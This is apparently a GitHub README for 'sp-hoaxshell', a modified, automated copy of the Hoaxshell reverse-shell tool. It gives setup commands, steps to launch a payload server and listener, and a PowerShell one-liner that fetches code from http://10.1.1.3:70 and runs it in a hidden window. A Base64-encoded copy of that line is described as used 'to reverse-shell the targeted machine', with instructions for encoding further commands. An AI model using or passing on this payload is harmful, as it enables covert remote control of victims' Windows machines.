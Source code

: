<img src="https://github.com/SentinelSamuel/sp-winget-RS-hoax/blob/main/img-for-Readme/Hoax.png" width="500">

# sp-hoaxshell

Copy of the real Hoaxshell (https://github.com/t3l3machus/hoaxshell) with modifications to automatise everything

## Installation + configuration before the start
```
git clone https://github.com/t3l3machus/hoaxshell.git
rm ./hoaxshell/hoaxshell.py
git clone https://github.com/SentinelSamuel/sp-hoaxshell.git
mv ./sp-hoaxshell/hoaxshell.py ./hoaxshell
mv ./sp-hoaxshell/sp-hoax/ ./
sudo rm -rf ./sp-hoaxshell
pip3 install -r ./hoaxshell/requirements.txt
sudo chmod +x ./hoaxshell/hoaxshell.py
cd sp-hoax/
```

### 1) Start Python server
```
# maybe a sudo before ?
bash python-server-1.sh
```
<img src="https://github.com/SentinelSamuel/sp-winget-RS-hoax/blob/main/img-for-Readme/Picture2.png" width="500">

### 2) Start hoaxshell
```
# IN ANOTHER BASH PROMPT
# maybe a sudo before ?
bash hoaxshell-2.sh  
```
<img src="https://github.com/SentinelSamuel/sp-winget-RS-hoax/blob/main/img-for-Readme/Picture3.png" width="500">

### 3) Make the info file correct
```
# IN ANOTHER BASH PROMPT
# maybe a sudo before ?
pwsh info-3.ps1
```
<img src="https://github.com/SentinelSamuel/sp-winget-RS-hoax/blob/main/img-for-Readme/Picture4.png" width="500">

## Some infos :
```
# Not encoded :
$e=Invoke-RestMethod -Uri "http://10.1.1.3:70/sp-hoax/info"; powershell -WindowStyle hidden -e $e
```
```
# Encoded with this :
$text='<Your commands>'
$encoded=[convert]::ToBase64String([Text.Encoding]::Unicode.getBytes($text))
$encoded
```
```
# Encoded & used in the scripts to reverse-shell the targeted machine
powershell -WindowStyle hidden -e "JABlAD0ASQBuAHYAbwBrAGUALQBSAGUAcwB0AE0AZQB0AGgAbwBkACAALQBVAHIAaQAgACIAaAB0AHQAcAA6AC8ALwAxADAALgAxAC4AMQAuADMAOgA3ADAALwBzAHAALQBoAG8AYQB4AC8AaQBuAGYAbwAiADsAIABwAG8AdwBlAHIAcwBoAGUAbABsACAALQBXAGkAbgBkAG8AdwBTAHQAeQBsAGUAIABoAGkAZABkAGUAbgAgAC0AZQAgACQAZQA="
```
<img src="https://github.com/SentinelSamuel/sp-winget-RS-hoax/blob/main/img-for-Readme/Picture5.png" width="500">
